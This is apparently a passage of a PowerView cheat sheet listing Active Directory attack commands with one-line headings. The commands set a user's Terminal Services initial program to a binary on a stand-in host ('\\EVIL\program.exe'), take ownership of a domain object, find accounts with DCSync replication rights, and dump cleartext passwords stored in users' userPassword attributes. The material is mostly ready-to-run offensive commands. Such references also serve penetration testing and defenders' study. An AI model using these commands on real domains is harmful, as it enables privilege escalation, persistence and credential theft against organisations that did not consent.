 ## set the specified property for the given user identity
```bash
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
```

## Set the owner of 'dfm' in the current domain to 'harmj0y'
```bash
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```

## retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)
```bash
Get-ObjectACL "DC=testlab,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}
```

## check if any user passwords are set
```bash
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
```
